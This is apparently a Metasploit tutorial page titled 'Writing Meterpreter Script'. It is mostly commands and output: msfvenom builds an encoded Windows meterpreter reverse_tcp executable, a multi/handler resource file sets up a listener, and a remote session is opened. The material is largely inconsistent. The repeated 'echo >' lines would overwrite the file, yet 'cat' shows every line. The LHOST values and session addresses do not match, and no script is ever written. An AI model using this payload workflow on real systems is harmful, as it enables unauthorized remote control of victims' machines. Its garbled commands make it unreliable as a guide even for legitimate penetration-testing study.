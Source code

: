 ```yaml
---
draft: false
title:  MSF Writing Meterpreter Script
linkTitle: Writing Meterpreter Script
translationKey: msf-meterpreter-script-writing
weight: 370
date: 2017-06-14T13:47:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: You can find the information about writing a script in Metasploit Framework in this article.
url:  /msf-meterpreter-script-writing/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## Writing Scripts

First, let's see some rules to consider when writing a new script.

* Not all Windows versions are the same.

* Some Windows versions include security measures.

* Windows Scripts behave differently depending on the version.

* You may need to be specific to the Windows version when writing a script.

Considering the rules mentioned above, it is necessary to write a target-specific script. In this case, the script we will write can work correctly.

Now, let's create an executable .exe file with the following command. This program will run on the target system and open a reverse connection to our local computer.

```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```

Our required .exe file has been created. This file will run in the target windows operating system and will communicate with the local computer. Then we need to create a listener on the local computer. Let's create our listener.

```bash
root@kali:~# touch meterpreter.rc
root@kali:~# echo use exploit/multi/handler > meterpreter.rc
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp > meterpreter.rc
root@kali:~# echo set LHOST 192.168.1.184 > meterpreter.rc
root@kali:~# echo set ExitOnSession false > meterpreter.rc
root@kali:~# echo exploit -j -z > meterpreter.rc
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```

If you notice, we set the multi handler module as a listener with the commands. We used the reverse_tcp module as the payload module. We set the local IP address as 192.168.1.184.

If we save the newly written scripts to the `/usr/share/metasploit-framework/scripts/meterpreter` folder, we can use them easily.

Now, what we need to do is start the `msfconsole` program by referencing the `meterpreter.rc` file we just created.

```bash
root@kali:~# msfconsole -r meterpreter.rc

 [ metasploit v4.8.2-2014021901 [core:4.8 api:1.0] ]
+ -- --[ 1265 exploits - 695 auxiliary - 202 posts ]
+ -- --[ 330 payloads - 32 encoders - 8 nops ]

resource> use exploit/multi/handler
resource> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource> set LHOST 192.168.1.184
LHOST => 192.168.1.184
resource> set ExitOnSession false
ExitOnSession => false
resource> exploit -j -z
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```

As you can see above, Metasploit Framework started by listening. Now, when we run the .exe file we created in Windows, the session will be activated.

```bash
> Sending stage (718336 bytes)
> Meterpreter session 1 opened (192.168.1.158:4444 -> 192.168.1.104:1043)

msf exploit(handler) > sessions -i 1
> Starting interaction with 1...

meterpreter >
```
